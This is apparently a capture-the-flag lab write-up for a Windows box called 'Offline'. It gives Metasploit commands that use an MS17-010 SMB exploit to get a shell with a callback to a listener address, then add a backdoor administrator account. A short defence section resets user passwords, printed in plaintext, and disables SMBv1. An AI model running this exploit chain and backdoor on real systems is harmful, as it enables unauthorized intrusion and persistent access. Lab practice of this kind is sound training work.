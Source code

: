 # Offline
1. http://offline.thm/Scarras_Super_Secret_Password.txt
2. `sudo msfconsole -q`
3. `use exploit/windows/smb/ms17_010_psexec`
4. `set RHOST offline.thm`
5. `set LHOST 10.8.85.10`
6. `exploit` and `shell`
7. `net user lomar tomarkomar /add`
8. `net localgroup administrators lomar /add`
## Defend
1. `net user poki HenEwoFYPn4Scxq97M`
2. `net user scarra Fl3fgJWQHu2M82oI40`
3.  `Disable-WindowsOptionalFeature -Online -FeatureName smb1protocol`
